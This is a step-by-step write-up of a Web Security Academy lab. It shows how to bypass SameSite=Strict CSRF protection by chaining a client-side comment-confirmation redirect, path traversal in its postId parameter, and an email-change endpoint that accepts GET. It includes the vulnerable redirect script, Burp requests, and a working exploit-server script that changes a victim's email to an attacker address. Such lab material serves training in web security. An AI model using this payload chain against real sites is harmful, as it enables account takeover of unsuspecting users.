

---

**Difficulty:** 🟡 Practitioner

**Goal:**

- 🔍 Identify CSRF vulnerability with SameSite=Strict protection
- 🎯 Understand that Strict blocks ALL cross-site requests (even GET)
- 🔧 Find a client-side redirect gadget on the target site
- 💉 Abuse path traversal in redirect parameter to navigate anywhere
- 🌐 Recognize that same-site redirect preserves cookies (no cross-site)
- 🔄 Discover email change endpoint accepts GET requests
- 🚀 Chain redirect gadget with email change to bypass Strict
- 🎪 Use exploit server to trigger the attack via redirect
- 🚨 Bypass SameSite=Strict using on-site gadget as stepping stone
- 🎉 Complete lab successfully

---

## 🧠 **Concept Recap**

> **SameSite Strict bypass via client-side redirect** exploits an on-site gadget — a legitimate feature on the target domain that performs client-side navigation based on user-controlled parameters. Even though SameSite=Strict prevents cookies from being sent in cross-site requests, once the victim lands on the target site through the initial navigation (which doesn't send cookies), a subsequent same-site redirect performed by JavaScript on that page WILL include cookies. By chaining a path traversal vulnerability in the redirect parameter with a state-changing GET endpoint, attackers can bypass Strict protections entirely.

### 📊 **The Vulnerability**

**How SameSite=Strict is supposed to work:**

```r
SameSite=Strict cookie rules:

Cross-site request (any method): ❌ Cookie NEVER sent
  Example: Attacker site → Target site
  └── Browser: "Different site origin"
      └── Session cookie NOT included ❌

Same-site request (any method): ✅ Cookie always sent
  Example: Target site → Target site
  └── Browser: "Same site navigation"
      └── Session cookie IS included ✓

The protection goal:
└── No cross-site request can ever use victim's session
    └── Even GET top-level navigations blocked
        └── Strongest CSRF protection! 🛡️

Why Strict is stronger than Lax:
├── Lax:    Allows GET top-level navigations cross-site ⚠️
└── Strict: Blocks ALL cross-site requests entirely ✓
```

**The on-site gadget bypass:**

```r
Attack without gadget (FAILS):
  Attacker page → Target /change-email
  └── Cross-site request
      └── SameSite=Strict blocks cookie ❌
          └── No session → Request rejected! ✓

Attack with gadget (SUCCEEDS):
  Step 1: Attacker page → Target /confirmation?postId=../email
          └── Cross-site navigation
              └── Cookie NOT sent (but that's OK!)
                  └── Lands on confirmation page ✓

  Step 2: Target confirmation page → JS redirect → /change-email
          └── Same-site navigation! ✓
              └── Cookie IS sent! ✓
                  └── Email changed! 💥

The key insight:
└── First request: cross-site (no cookie needed)
    └── Lands victim ON the target domain
        └── Second request: same-site (cookie included!)
            └── Strict protection bypassed! 💣
```

**Path traversal in redirect parameter:**

```r
Normal redirect flow:
  /post/comment/confirmation?postId=5
  └── JavaScript reads postId parameter
      └── Redirects to: /post/5
          └── User sees their comment

Path traversal injection:
  /post/comment/confirmation?postId=1/../../my-account
  └── JavaScript constructs: /post/1/../../my-account
      └── Browser normalizes to: /my-account
          └── Lands on account page! ✓

Full exploit chain:
  /post/comment/confirmation?postId=1/../../my-account/change-email?email=evil@attacker.com&submit=1
  └── JavaScript constructs: /post/1/../../my-account/change-email?email=...
      └── Browser normalizes to: /my-account/change-email?email=...
          └── GET request with victim's session cookie
              └── Email changed! 💥
```

**Full attack flow:**

```r
Step 1: Attacker hosts exploit
<script>
  document.location = "https://target.net/post/comment/confirmation
    ?postId=1/../../my-account/change-email?email=evil@attacker.com%26submit=1";
</script>

         ↓

Step 2: Victim visits attacker's exploit page
         └── Browser redirects to target domain
             └── Cross-site navigation
                 └── No session cookie sent (Strict blocks it)
                     └── That's fine — confirmation page is public!

         ↓

Step 3: Victim lands on target's confirmation page
         └── URL: /post/comment/confirmation?postId=1/../../...
             └── Confirmation page loads successfully
                 └── Session cookie not needed for this page ✓

         ↓

Step 4: JavaScript on confirmation page executes
         └── commentConfirmationRedirect.js runs
             └── Reads postId from URL
                 └── Constructs redirect URL: /post/1/../../my-account/change-email?email=...

         ↓

Step 5: Browser performs client-side redirect
         └── document.location = "/post/1/../../my-account/change-email?email=..."
             └── Browser normalizes path: /my-account/change-email?email=...
                 └── This is a SAME-SITE navigation! ✓
                     └── Session cookie IS included! ✓

         ↓

Step 6: GET request fires with session cookie
  GET /my-account/change-email?email=evil@attacker.com&submit=1 HTTP/2
  Host: target.net
  Cookie: session=VICTIM_SESSION ← Included (same-site)! ✓

         ↓

Step 7: Server processes request
         └── Valid session ✓
             └── Email parameter present ✓
                 └── Changes email to evil@attacker.com ✓

         ↓

Step 8: Victim's email changed! 💥
```

**Key Insight:**

```r
Why this bypass works — the same-site trick:

1. SameSite=Strict only checks the INITIATOR:
   └── Cross-site request: Cookie blocked ❌
   └── Same-site request: Cookie allowed ✓
   └── But what if we can LAND on target site first?

2. The two-step bypass:
   └── Step 1: Cross-site → Target (public page)
       └── No cookie needed (public content)
   └── Step 2: Same-site → Target (protected endpoint)
       └── Cookie included! ✓

3. Why the gadget is critical:
   └── Without gadget:
       ├── Attacker → /change-email directly
       └── Cross-site → Blocked! ❌
   
   └── With gadget:
       ├── Attacker → /confirmation (public)
       ├── Confirmation → /change-email (same-site!)
       └── Cookie flows through! ✓

4. Path traversal enables arbitrary targets:
   └── Normal redirect: /post/{postId}
       └── Limited to blog posts only
   
   └── With traversal: /post/1/../../{anywhere}
       └── Can reach ANY endpoint! 💣

5. Why GET support matters:
   └── JavaScript redirect uses: document.location = URL
       └── This creates a GET request
           └── If endpoint only accepted POST: bypass fails ❌
               └── But endpoint accepts GET: bypass works! ✓

6. The URL encoding detail:
   └── Payload: ?email=evil@attacker.com&submit=1
       └── But it's INSIDE postId parameter!
           └── Must encode & as %26
               └── Otherwise breaks postId parameter structure
   
   └── Final: postId=1/../../change-email?email=evil%40attacker.com%26submit=1
       └── %26 prevents early parameter termination ✓

The protection gap:
└── Developer assumes:
    "SameSite=Strict blocks all cross-site attacks" ✓
    └── True for DIRECT cross-site requests
        └── But misses INDIRECT attacks via on-site gadgets! ❌

└── The redirect feature:
    "It's just navigating within our own site" ✓
    └── Designed for UX (post confirmation → post page)
        └── Never considered as CSRF bypass vector! ❌

└── Path traversal oversight:
    "It's client-side JavaScript" ✓
    └── "No server-side injection risk"
        └── But browser normalizes paths → reaches wrong endpoint! ❌

Real-world developer thought process:
└── "We set SameSite=Strict on session cookies"
    └── "That's the strongest protection available"
        └── "CSRF is impossible now!" ✓
            └── "Our redirect feature is harmless"
                └── "It only navigates to blog posts"
                    └── Never tested path traversal! ❌
                        └── Never considered gadget chains! ❌
                            └── Vulnerability introduced! ⚠️
```

---
---

## 🛠️ **Step-by-Step Attack**

---

### 🔧 **Step 1 — Access Lab**

1. 🌐 Click **"Access the lab"**
2. 👀 Observe the lab page
3. 📝 Note credentials: `wiener:peter`

**Lab description:**

```
Lab: SameSite Strict bypass via client-side redirect

Vulnerability:
└── Email change has no CSRF tokens
    └── Session cookie has SameSite=Strict
        └── Blocks ALL cross-site requests (even GET)
            └── But site has client-side redirect gadget! 💣

Goal:
└── Use exploit server to change victim's email
    └── By chaining redirect gadget with path traversal 🎯

Challenge:
└── Cannot attack /change-email directly (cross-site blocked)
    └── Must use on-site gadget as stepping stone
        └── Two-step attack: cross-site → same-site! 💣
```

---

### 🔐 **Step 2 — Login to Account**

1. 🖱️ Click **"My account"**
2. 📝 Enter credentials:
    - Username: `wiener`
    - Password: `peter`
3. 🚀 Click **"Login"**

**After login:**

```
┌────────────────────────────────────┐
│ My Account                         │
├────────────────────────────────────┤
│                                    │
│ Username: wiener                   │
│                                    │
│ Email: wiener@normal-user.net      │
│                                    │
│ Update email:                      │
│ [____________________________]     │
│                                    │
│ [Update email]                     │
│                                    │
└────────────────────────────────────┘
```

---

### 🔍 **Step 3 — Verify SameSite=Strict Cookie**

1. 🌐 Open Burp Suite → **Proxy → HTTP History**
2. 🔎 Find the `POST /login` response
3. 👀 Inspect the `Set-Cookie` header

**Login response:**

```HTTP
HTTP/2 302 Found
Location: /my-account
Set-Cookie: session=xYz9KpLm3jN8qR5wV2tF7hG4sD1aB6cE; Secure; HttpOnly; SameSite=Strict

                                                                    ↑
                                                    SameSite=Strict! ← Critical
```

**Analysis:**

```
Cookie attributes present:
├── Secure ✓ (HTTPS only)
├── HttpOnly ✓ (JS cannot read)
└── SameSite=Strict ✓ (Strongest protection)

SameSite=Strict behavior:
├── Cross-site GET: ❌ Cookie NOT sent
├── Cross-site POST: ❌ Cookie NOT sent
├── Cross-site (any method): ❌ Cookie NOT sent
└── Same-site (any method): ✅ Cookie sent ✓

Why this is stronger than Lax:
├── Lax allows: Cross-site GET top-level navigation
└── Strict blocks: ALL cross-site requests (no exceptions)

Developer's assumption:
└── "Strict is the strongest protection"
    └── "No cross-site CSRF possible" ✓
        └── But what about same-site gadgets? 🤔
```

---

### 📨 **Step 4 — Capture and Analyze Email Change Request**

1. ✏️ Enter test email: `test@example.com`
2. 🚀 Click **"Update email"**
3. 👀 Find the request in Burp **Proxy → HTTP History**

**Intercepted POST request:**

```HTTP
POST /my-account/change-email HTTP/2
Host: 0abc1234def5678.web-security-academy.net
Cookie: session=xYz9KpLm3jN8qR5wV2tF7hG4sD1aB6cE
Content-Type: application/x-www-form-urlencoded
Content-Length: 37

email=test%40example.com&submit=1
```

**Analysis — no CSRF token:**

```
What's in the request:
├── Method: POST ✓
├── Session cookie: present ✓
├── email parameter ✓
├── submit parameter ✓
└── CSRF token: NONE! ← Important

No CSRF protection via tokens:
└── Application relies ENTIRELY on SameSite=Strict
    └── Assumption: "Cross-site POST blocked by browser"
        └── TRUE for direct cross-site requests ✓
            └── But what about indirect attacks? 🤔

Key question:
└── Does endpoint accept GET requests?
    └── If YES → Can be triggered via navigation
        └── If we can make SAME-SITE navigation...
            └── Cookie would be included! 💣
```

---

### 🔄 **Step 5 — Send to Burp Repeater and Test GET**

1. 🖱️ **Right-click** on the email change request
2. 📋 Select **"Send to Repeater"**
3. 📑 Switch to **"Repeater"** tab
4. 🖱️ **Right-click** in request area
5. 📋 Select **"Change request method"**

**Burp converts POST to GET:**

```HTTP
BEFORE (POST):
POST /my-account/change-email HTTP/2
Content-Type: application/x-www-form-urlencoded

email=test%40example.com&submit=1

         ↓ "Change request method" ↓

AFTER (GET):
GET /my-account/change-email?email=test2%40example.com&submit=1 HTTP/2
Host: 0abc1234def5678.web-security-academy.net
Cookie: session=xYz9KpLm3jN8qR5wV2tF7hG4sD1aB6cE
```

6. 🚀 Click **"Send"**
7. 👀 Observe response

**Expected response — GET accepted:**

```HTTP
HTTP/2 302 Found
Location: /my-account

Email updated!
```

**CRITICAL DISCOVERY:**

```
✅ Endpoint accepts GET requests!
✅ Email changed via GET!
✅ No method restriction!

Why this matters:
└── Client-side redirects use GET
    └── document.location = URL → GET request
        └── If endpoint required POST: gadget useless ❌
            └── But endpoint accepts GET: gadget works! ✓

Attack becomes possible:
└── If we can trigger same-site GET to /change-email
    └── With session cookie included
        └── Email changes! 💥
            └── Need to find on-site gadget! 🎯
```

---

### 🔎 **Step 6 — Explore Site for Redirect Gadget**

1. 🌐 Navigate to the blog (home page)
2. 🖱️ Click on any blog post
3. ✏️ Submit a comment (any text)
4. 👀 Observe the redirect behavior

**Comment submission flow:**

```
Submit comment form
         ↓
POST /post/comment
         ↓
Redirect to confirmation page:
  /post/comment/confirmation?postId=5
         ↓
Confirmation page displays:
  "Thank you for submitting a comment.
   You will be redirected shortly..."
         ↓
After ~2 seconds:
  Automatic redirect to: /post/5
         ↓
User sees their comment on the blog post ✓
```

**Key observations:**

```
1. Confirmation page URL includes postId parameter
   └── /post/comment/confirmation?postId=5

2. Client-side redirect (not server-side)
   └── JavaScript handles the redirect
       └── Not a 302 HTTP redirect

3. PostId value controls redirect destination
   └── postId=5 → redirects to /post/5
       └── Parameter influences navigation! 💡
```

---

### 🔍 **Step 7 — Analyze the Redirect JavaScript**

1. 🌐 Open Burp **Proxy → HTTP History**
2. 🔎 Find the `GET /post/comment/confirmation?postId=5` request
3. 👀 Examine the response body
4. 🔎 Look for `<script>` tags referencing redirect logic

**Confirmation page includes:**

```HTML
<!DOCTYPE html>
<html>
<head>
    <title>Comment Submitted</title>
    <script src="/resources/js/commentConfirmationRedirect.js"></script>
</head>
<body>
    <h1>Thank you for submitting a comment.</h1>
    <p>You will be redirected shortly...</p>
</body>
</html>
```

5. 🔎 Find and examine `/resources/js/commentConfirmationRedirect.js`

**JavaScript content:**

```JavaScript
// Get postId parameter from URL
redirectOnConfirmation = (blogPath) => {
    setTimeout(() => {
        const url = new URL(window.location);
        const postId = url.searchParams.get("postId");
        window.location = blogPath + '/' + postId;
    }, 3000);
}

// Execute redirect after 3 seconds
redirectOnConfirmation('/post');
```

**Critical analysis:**

```JavaScript
How the redirect works:

1. Extract postId from query string:
   const postId = url.searchParams.get("postId");
   └── If URL is: ?postId=5
       └── postId = "5"

2. Construct redirect URL:
   window.location = blogPath + '/' + postId;
   └── blogPath = '/post' (hardcoded)
   └── Result: '/post/' + postId
       └── If postId=5: '/post/5'

3. Perform navigation:
   window.location = '/post/5'
   └── Browser navigates to /post/5
       └── Same-site navigation! ✓

VULNERABILITY:
└── postId value is NOT validated!
    └── No sanitization of special characters
        └── No path traversal filtering
            └── Direct string concatenation! 💣

What if postId contains path traversal?
└── postId = "1/../../my-account"
    └── Constructed URL: '/post/' + '1/../../my-account'
        └── Result: '/post/1/../../my-account'
            └── Browser normalizes to: '/my-account'
                └── Can navigate ANYWHERE! 💥
```

---

### 🧪 **Step 8 — Test Path Traversal in Redirect**

**Craft test URL with path traversal:**

```
Normal URL:
/post/comment/confirmation?postId=5

Test URL:
/post/comment/confirmation?postId=1/../../my-account
```

1. 🌐 In browser, visit the test URL directly
2. 👀 Observe the confirmation page loads
3. ⏳ Wait for the redirect (3 seconds)
4. 👀 Observe where you land

**Expected result:**

```r
Initial page:
  URL: /post/comment/confirmation?postId=1/../../my-account
  Display: "Thank you for submitting a comment..."

         ↓ After 3 seconds ↓

JavaScript constructs:
  '/post/' + '1/../../my-account'
  = '/post/1/../../my-account'

Browser normalizes path:
  /post/1/../../my-account
  └── Go up one: /post/1/../my-account
      └── Go up again: /post/my-account
          └── Final: /my-account ✓

Result:
  URL: https://target.net/my-account
  Display: Your account page! ✓
```

**PATH TRAVERSAL CONFIRMED:**

```r
🎯 Critical Discovery:

✅ postId parameter vulnerable to path traversal
✅ Can navigate to arbitrary endpoints on same domain
✅ Same-site navigation includes session cookie
✅ Gadget identified! 💣

Attack chain now clear:
1. Victim visits attacker page (cross-site)
2. Redirect to /confirmation?postId=../../change-email?email=...
3. Confirmation page loads (no cookie needed, public page)
4. JavaScript redirects to /change-email?email=... (same-site!)
5. Session cookie included in redirect ✓
6. Email changed! 💥
```

---

### 🔧 **Step 9 — Test Full Attack Chain Manually**

**Construct full payload URL:**

```r
Target endpoint:
/my-account/change-email?email=test99@example.com&submit=1

Path traversal to reach it:
postId=1/../../my-account/change-email?email=test99@example.com&submit=1

Full URL:
https://0abc1234def5678.web-security-academy.net/post/comment/confirmation?postId=1/../../my-account/change-email?email=test99@example.com&submit=1
```

**⚠️ URL Encoding Issue:**

```r
Problem:
└── postId=1/../../my-account/change-email?email=test99@example.com&submit=1
                                                                     ↑
                                              Ampersand breaks parameter!

What browser sees:
└── postId=1/../../my-account/change-email?email=test99@example.com
└── submit=1 ← Separate parameter! Not part of postId!

Result:
└── JavaScript gets incomplete postId
    └── Redirect is malformed ❌

Solution: URL encode the ampersand
└── & → %26
    └── postId=...?email=test99@example.com%26submit=1
        └── Entire string is part of postId ✓
```

**Corrected URL:**

```r
https://0abc1234def5678.web-security-academy.net/post/comment/confirmation?postId=1/../../my-account/change-email?email=test99%40example.com%26submit=1
                                                                                                                    ↑                      ↑
                                                                                                            @ encoded             & encoded
```

1. 🌐 Visit the corrected URL in browser
2. 👀 Observe confirmation page loads
3. ⏳ Wait for redirect
4. 👀 Observe final destination

**Expected flow:**

```r
Step 1: Initial page load
  URL: /post/comment/confirmation?postId=1/../../my-account/change-email?email=test99%40example.com%26submit=1
  
  JavaScript extracts:
  postId = "1/../../my-account/change-email?email=test99@example.com&submit=1"
  └── URL decoding happens automatically ✓

Step 2: JavaScript constructs redirect
  '/post/' + '1/../../my-account/change-email?email=test99@example.com&submit=1'
  = '/post/1/../../my-account/change-email?email=test99@example.com&submit=1'

Step 3: Browser normalizes
  /my-account/change-email?email=test99@example.com&submit=1

Step 4: Navigation fires
  GET /my-account/change-email?email=test99@example.com&submit=1
  Cookie: session=YOUR_SESSION ← Included (same-site)! ✓

Step 5: Email changed! ✓
```

**Verification:**

```
Check My Account page:
┌─────────────────────────────────────┐
│ My Account                          │
├─────────────────────────────────────┤
│                                     │
│ Username: wiener                    │
│                                     │
│ Email: test99@example.com ← Changed!│
│                                     │
└─────────────────────────────────────┘

✅ Manual attack successful!
✅ Path traversal + redirect = bypass complete!
✅ Ready to weaponize for victim!
```

---

### 🌐 **Step 10 — Access Exploit Server**

1. 🔙 Go back to lab page
2. 🖱️ Click **"Go to exploit server"**

**Exploit server interface:**

```
┌────────────────────────────────────────────────────────┐
│ Exploit Server                                         │
├────────────────────────────────────────────────────────┤
│                                                        │
│ Response headers:                                      │
│ HTTP/1.1 200 OK                                        │
│ Content-Type: text/html; charset=utf-8                 │
│                                                        │
│ Body:                                                  │
│ [______________________________________]               │
│ [______________________________________]               │
│                                                        │
│ [Store] [View exploit] [Deliver exploit to victim]     │
└────────────────────────────────────────────────────────┘
```

---

### 📝 **Step 11 — Create the Exploit HTML**

**Paste into Body field:**

```html
<script>
    document.location = "https://0abc1234def5678.web-security-academy.net/post/comment/confirmation?postId=1/../../my-account/change-email?email=pwned%40web-security-academy.net%26submit=1";
</script>
```

**⚠️ CRITICAL: Replace `0abc1234def5678` with YOUR lab ID!**

**Full exploit anatomy:**

```js
<script>
    document.location = "https://[LAB-ID].web-security-academy.net
        /post/comment/confirmation
        ?postId=1/../../my-account/change-email?email=pwned%40web-security-academy.net%26submit=1";
</script>

Breaking down the URL:

Base endpoint:
└── /post/comment/confirmation

Query parameter:
└── ?postId=...

PostId value (URL encoded):
└── 1/../../my-account/change-email?email=pwned@web-security-academy.net&submit=1
    ├── 1/../../my-account/change-email ← Path traversal
    ├── ?email=pwned%40web-security-academy.net ← Target email
    │   └── %40 = @ (URL encoded)
    └── %26submit=1 ← Submit parameter
        └── %26 = & (URL encoded to stay inside postId)

Why URL encoding is critical:
├── @ → %40: Standard URL encoding for @ symbol
├── & → %26: MUST encode to prevent breaking postId parameter
└── Without %26: Browser treats submit=1 as separate parameter
    └── JavaScript gets incomplete postId
        └── Redirect fails! ❌

Execution flow:
1. Victim visits exploit-server.net (cross-site)
2. document.location redirects to lab.net/confirmation (cross-site nav)
3. No session cookie sent in step 2 (Strict blocks it)
4. Confirmation page loads (public, no auth needed) ✓
5. JavaScript extracts postId from URL
6. JavaScript redirects to /change-email (same-site nav!)
7. Session cookie included in step 6 (same-site) ✓
8. Email changed! 💥
```

---

### 💾 **Step 12 — Store and Test Exploit on Yourself**

1. 💾 Click **"Store"**
2. 👁️ Click **"View exploit"**

**What happens in your browser:**

```r
Exploit page loads
         ↓
Browser executes <script> tag
         ↓
document.location assignment fires
         ↓
Browser navigates to (cross-site):
  GET /post/comment/confirmation?postId=1/../../my-account/change-email?email=pwned%40...
  Host: 0abc1234def5678.web-security-academy.net
  Cookie: ← NO session cookie! (Cross-site blocked by Strict) ✓
         ↓
Confirmation page loads:
  "Thank you for submitting a comment..."
  └── Public page, no authentication required ✓
         ↓
JavaScript on confirmation page executes:
  const postId = "1/../../my-account/change-email?email=pwned@...&submit=1"
  window.location = '/post/' + postId
  = '/post/1/../../my-account/change-email?email=pwned@...&submit=1'
         ↓
Browser navigates to (same-site):
  GET /my-account/change-email?email=pwned@web-security-academy.net&submit=1
  Host: 0abc1234def5678.web-security-academy.net
  Cookie: session=YOUR_SESSION ← Cookie included! (Same-site) ✓
         ↓
Server processes request:
  ├── Session valid ✓
  ├── Email parameter present ✓
  └── Changes email ✓
         ↓
302 redirect to /my-account
         ↓
Your account page displays with new email ✓
```

**Verification:**

```
Check My Account page:
┌─────────────────────────────────────────────────┐
│ My Account                                      │
├─────────────────────────────────────────────────┤
│                                                 │
│ Username: wiener                                │
│                                                 │
│ Email: pwned@web-security-academy.net ← Changed!│
│                                                 │
└─────────────────────────────────────────────────┘

✅ Exploit works end-to-end!
✅ SameSite=Strict bypassed via gadget!
✅ Ready for victim delivery!
💡 But your email is now taken — update before final delivery!
```

---

### 🔄 **Step 13 — Update Email for Victim Delivery**

**Important:** Use a different email address that hasn't been used!

1. 🔙 Go back to exploit server
2. ✏️ Change the email value:

```js
<script>
    document.location = "https://0abc1234def5678.web-security-academy.net/post/comment/confirmation?postId=1/../../my-account/change-email?email=hacked%40evil-attacker.net%26submit=1";
</script>
```

3. 💾 Click **"Store"**

**Why different email:**

```
Problem:
└── Already used pwned@web-security-academy.net on your account
    └── That email address is "taken"
        └── Victim's registration would fail (duplicate email)

Solution:
└── Use fresh unused email for victim
    ├── hacked@evil-attacker.net
    ├── compromised@attacker.com
    └── Or any email address not already in use

This ensures victim's email change succeeds! ✓
```

---

### 🎯 **Step 14 — Deliver Exploit to Victim**

1. 🚀 Click **"Deliver exploit to victim"**
2. ⏳ Wait for confirmation

**Attack execution against victim:**

```r
Lab simulation starts:
         ↓
1. Simulated victim (Carlos) is logged in
   └── Has valid session cookie with SameSite=Strict
   └── Browser: Chrome (respects Strict)
   
2. Victim visits your exploit URL
   └── https://exploit-XXXXX.exploit-server.net/
   
3. Exploit page loads in victim's browser
         ↓
4. <script> executes:
   document.location = "https://LAB.net/post/comment/confirmation?postId=..."
         ↓
5. Browser navigates to confirmation page (cross-site):
   GET /post/comment/confirmation?postId=1/../../my-account/change-email?email=hacked%40...
   Host: 0abc1234def5678.web-security-academy.net
   Cookie: ← NO session cookie sent!
   
   Why no cookie?
   ├── Cross-site navigation (exploit-server → lab)
   ├── SameSite=Strict blocks ALL cross-site requests
   └── But confirmation page is PUBLIC → works anyway! ✓
         ↓
6. Confirmation page loads and displays:
   "Thank you for submitting a comment. You will be redirected shortly..."
         ↓
7. JavaScript (commentConfirmationRedirect.js) executes:
   ├── Extracts postId from URL
   ├── Constructs redirect: '/post/' + postId
   ├── Result: '/post/1/../../my-account/change-email?email=...'
   └── Executes: window.location = constructed_url
         ↓
8. Browser navigates (same-site):
   GET /my-account/change-email?email=hacked@evil-attacker.net&submit=1
   Host: 0abc1234def5678.web-security-academy.net
   Cookie: session=VICTIM_SESSION ← NOW included! (Same-site navigation) ✓
   
   Why cookie IS sent now?
   ├── Navigation from: lab.net/confirmation → lab.net/change-email
   ├── Same-site navigation (lab.net → lab.net)
   ├── SameSite=Strict ALLOWS same-site requests
   └── Session cookie flows through! ✓
         ↓
9. Server validates and processes:
   ├── Reads session cookie: VICTIM_SESSION ✓
   ├── Session is valid ✓
   ├── Extracts email parameter: hacked@evil-attacker.net
   ├── Extracts submit parameter: 1
   └── Updates victim's email in database ✓
         ↓
10. Victim's email changed:
    └── FROM: carlos@...
    └── TO: hacked@evil-attacker.net
         ↓
11. Lab validation:
    └── Checks victim's email was modified ✓
    └── Lab solved! 🎉
```

---

### ✅ **Step 15 — Lab Completion**

**Success banner:**

```
┌─────────────────────────────────────┐
│  ✅ Congratulations!                │
│                                     │
│  You successfully bypassed          │
│  SameSite=Strict cookie             │
│  restrictions using a client-side   │
│  redirect gadget with path          │
│  traversal.                         │
│                                     │
│  Lab: SameSite Strict bypass via    │
│       client-side redirect          │
│  Status: SOLVED ✓                   │
└─────────────────────────────────────┘
```

---

## 🔗 **Complete Attack Chain**

```r
Step 1: Access lab and login
         → wiener:peter
         ↓
Step 2: Check login response
         → POST /login response
         → Set-Cookie: session=...; SameSite=Strict
         → Strongest cookie protection active! 🛡️
         ↓
Step 3: Capture email change request
         → POST /my-account/change-email
         → Body: email=test@example.com&submit=1
         → NO CSRF token anywhere!
         → App relies solely on SameSite=Strict
         ↓
Step 4: Test GET method
         → Send to Repeater
         → "Change request method" → converts to GET
         → GET /my-account/change-email?email=...&submit=1
         → 302 Found → email changed! ✓
         → Endpoint accepts GET requests! 💥
         ↓
Step 5: Explore site for gadgets
         → Submit blog comment
         → Redirected to /post/comment/confirmation?postId=5
         → Automatic redirect back to /post/5
         → Client-side redirect observed! 💡
         ↓
Step 6: Find redirect JavaScript
         → Examine HTTP history
         → Find /resources/js/commentConfirmationRedirect.js
         → Code: window.location = '/post/' + postId
         → Direct string concatenation (no validation)! 💣
         ↓
Step 7: Test path traversal
         → URL: /post/comment/confirmation?postId=1/../../my-account
         → Wait for redirect
         → Lands on /my-account ✓
         → Path traversal confirmed! 💥
         ↓
Step 8: Build full payload
         → postId=1/../../my-account/change-email?email=test99@example.com&submit=1
         → URL encode: %40 for @, %26 for &
         → Visit crafted URL manually
         → Email changed! ✓
         → Full chain works! 💣
         ↓
Step 9: Create exploit
         → <script>document.location = "...?postId=..."</script>
         → URL includes path traversal + email change
         → Paste into exploit server Body
         ↓
Step 10: Store and test on yourself
          → View exploit
          → Cross-site redirect to confirmation (no cookie)
          → Same-site redirect to change-email (cookie sent!)
          → Email changed ✓
         ↓
Step 11: Update email for victim
          → Use different unused email
          → Store again
         ↓
Step 12: Deliver to victim
          → Click "Deliver exploit to victim"
          → Two-step attack fires:
          →   1. Cross-site (no cookie, public page)
          →   2. Same-site (cookie sent, protected action)
          → Victim's email changed! 💥
         ↓
Step 13: Lab solved! 🎉
```

---

## ⚙️ **Understanding the Vulnerability**

### **SameSite=Strict vs Lax vs None**

```r
Cookie SameSite attribute values:

SameSite=Strict (this lab):
├── Cross-site requests: ❌ Cookie NEVER sent (any method)
├── Same-site requests: ✅ Cookie always sent (any method)
└── Strongest protection available
    └── But vulnerable to on-site gadgets! ⚠️

SameSite=Lax (previous labs):
├── Cross-site GET top-level navigation: ✅ Cookie sent
├── Cross-site POST: ❌ Cookie NOT sent
├── Cross-site sub-resources: ❌ Cookie NOT sent
└── Middle-ground protection
    └── Vulnerable to GET-based attacks! ⚠️

SameSite=None:
├── All requests: ✅ Cookie always sent
├── Requires Secure attribute
└── No CSRF protection at all! ❌

Protection comparison:
└── None < Lax < Strict
    └── But even Strict has bypass vectors! 💣

Why Strict is stronger:
├── Blocks: Attacker → Target (all methods) ✓
└── Lax allows: Attacker → Target (GET navigations) ⚠️

Why Strict can still be bypassed:
└── Doesn't block: Target → Target (same-site)
    └── If attacker can reach ANY page on target...
        └── ...and that page redirects anywhere...
            └── Strict protection bypassed! 💥
```

---

### **Client-Side Redirect Gadgets**

```r
What is a gadget?

Definition:
└── A legitimate feature on the target site
    └── That performs an action useful to the attacker
        └── Without being obviously malicious itself

Common gadget types:
├── Client-side redirects (this lab) ✓
├── Open redirects (server-side)
├── OAuth callback handlers
├── File upload/download endpoints
├── JSONP endpoints
├── WebSocket connections
└── Any feature that accepts user input and does something with it

Why client-side redirects make good gadgets:
├── Often use URL parameters for redirect target
├── JavaScript handles navigation (not server)
├── May lack server-side validation
└── Create same-site navigation (cookie flows through!)

This lab's gadget:
├── Feature: Comment confirmation page
├── Purpose: Redirect users back to the blog post
├── Input: postId query parameter
├── Vulnerability: No path traversal filtering
└── Exploitation: Inject ../../ to navigate anywhere

Code pattern to look for:
const param = url.searchParams.get("param");
window.location = "/base/" + param;  ← Direct concatenation! 💣

Secure version would:
├── Validate param is a number: /^\d+$/
├── Whitelist allowed paths
├── Reject path traversal sequences
└── Or avoid client-side redirect entirely
```

---

### **Path Traversal in URLs**

```r
How path traversal works:

Normal path:
/post/5
└── Direct path to post with ID 5

Path with traversal:
/post/1/../../my-account
└── Start: /post/1/
└── ../ = go up one level → /post/
└── ../ = go up one level → /
└── my-account = append path → /my-account
└── Final normalized path: /my-account ✓

Browser normalization:
└── Browsers automatically normalize paths
    ├── /a/b/../c → /a/c
    ├── /a/./b → /a/b
    └── /a/b/../../c → /c

Multiple levels:
├── ../../ = go up two levels
├── ../../../ = go up three levels
└── Can reach site root from any depth

Why this is dangerous in redirects:
└── Developer thinks: "I'm only allowing /post/{id}"
    └── Reality: "I'm allowing /post/{anything}"
        └── Including: /post/1/../../{anywhere}
            └── Which normalizes to: /{anywhere}! 💣

Example in this lab:
postId = "1/../../my-account/change-email?email=evil@attacker.com&submit=1"
         ↓
'/post/' + '1/../../my-account/change-email?email=evil@attacker.com&submit=1'
         ↓
'/post/1/../../my-account/change-email?email=evil@attacker.com&submit=1'
         ↓
Browser normalizes to:
'/my-account/change-email?email=evil@attacker.com&submit=1'
